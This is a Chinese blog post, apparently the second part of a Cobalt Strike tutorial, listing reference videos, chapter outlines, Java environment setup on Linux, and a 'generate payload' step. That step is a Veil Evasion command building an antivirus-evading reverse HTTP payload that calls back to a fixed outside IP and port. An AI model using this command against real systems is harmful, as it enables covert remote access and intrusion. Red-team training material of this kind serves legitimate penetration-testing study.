 ```yaml
---
title: Cobalt Strike （二）
categories:
- cobaltstrike
tags:
- cobaltstrike
---
```


参考资料：
- [youtube官方视频](https://www.youtube.com/watch?v=5gwEMocFkc0&list=PL9HO6M_MU2nfQ4kHSCzAQMqxQxH47d1no&index=2)
- [渗透利器Cobalt Strike - 第1篇 功能及使用](https://xz.aliyun.com/t/3975#toc-5)
- [SMB Beacon Setup and Use](https://www.youtube.com/watch?v=J3BEeIx6Xzk)
- [Cobalt Strike 4.0 官方教程 —— 第一章：操作](http://blog.leanote.com/post/snowming/62ec1132a2c9)
- [外部监听器与session转发](https://www.youtube.com/watch?v=4xnBn5ZVkKE&feature=youtu.be)

我录制了关于 Cobalt Strike的使用视频，请移步观看：
- [1. Cobalt Strike介绍以及安装](https://www.acfun.cn/v/ac13359342)

- [2. Cobalt Strike客户端用户面板](https://www.acfun.cn/v/ac13368508)

```
视频内容目录
1.  Cobalt Strike介绍以及安装
	系统要求
	试用版和完整版的区别
	更新cs产品密钥
	cs服务端
	cs客户端
	cs脚本
2. Cobalt Strike客户端用户面板
	工具栏
	session可视化: target栏，session栏，pivot可视化
	tab按钮
	cs快捷键栏目
	控制面板consoles
```
## oracle官网下载java环境

oracle java se development kit 8u191

[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

## linux安装cs要求的java版本

vi ~/.bashrc

```linux配置java环境
#JAVA
export JAVA_HOME=/root/Desktop/jdk1.8.0_191
export JRE_HOME=$JAVA_HOME/jre
export PATH=$JAVA_HOME/bin:$JRE_HOME/bin:$PATH
export CLASSPATH=$JAVA_HOME/lib:$JRE_HOME/lib:.
```
source ~/.bashrc

## 生成payload
```
veil  -t Evasion --ordnance-payload rev_http -p 41 --ip 3.12.45.22 --port 7788 -o chris
```
payload x86 & x64 
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-06-02/1.PNG)

